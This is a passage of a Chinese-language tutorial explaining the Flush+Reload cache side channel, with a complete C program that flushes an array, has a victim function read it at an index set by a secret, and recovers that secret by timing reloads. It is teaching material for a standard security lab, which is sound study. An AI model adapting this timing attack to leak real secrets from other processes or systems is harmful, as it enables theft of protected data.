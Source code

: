 + 刷新缓存，以确保实验用到的数组未被缓存。（Flush部分）

+ 调用受害者函数（victim function——有点像前面所说的 **`if( ){access Instrument[A[x]]; }` **），该函数读取秘密值并访问对应的数组元素。此操作导致相应的数组元素放入cache

+ 重新扫描整个阵列，并测量访问每个元素所需的时间。（Reload部分）

  如果某个特定元素的加载时间很快，则该元素很可能已经在缓存中，那么此元素即是受害者函数访问的元素，因此我们便知道了秘密值是多少。 

## （2）FlushReload.c代码

```c
#include <emmintrin.h>
#include <x86intrin.h>
uint8_t array[256*4096];  //uint8_t = unsigned char
int temp;
unsigned char secret = 94;
/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)//我们自己设的域
#define DELTA 1024
void flushSideChannel(){
    int i;
// 先写一遍，防止Copy-on-write（写入复制机制）
    for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
// Flush the values of the array from cache
    for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}
void victim(){
    temp = array[secret*4096 + DELTA];
}
void reloadSideChannel(){
    int junk=0;
    register uint64_t time1, time2;//register修饰符暗示编译程序相应的变量将被频繁地使用
    volatile uint8_t *addr;//volatile定义变量时，CPU都从内存地址处重新取值
    int i;
    for(i = 0; i < 256; i++){
        addr = &array[i*4096 + DELTA];
        time1 = __rdtscp(&junk);//__rdtscp指令返回CPU自启动以来的时钟周期数
        junk = *addr;
        time2 = __rdtscp(&junk) - time1;
        if (time2 <= CACHE_HIT_THRESHOLD){
            printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
            printf("The Secret = %d.\n",i);
        }
    }
}
int main(int argc, const char **argv){
    flushSideChannel();
    victim();
    reloadSideChannel();
    return (0);
}
```
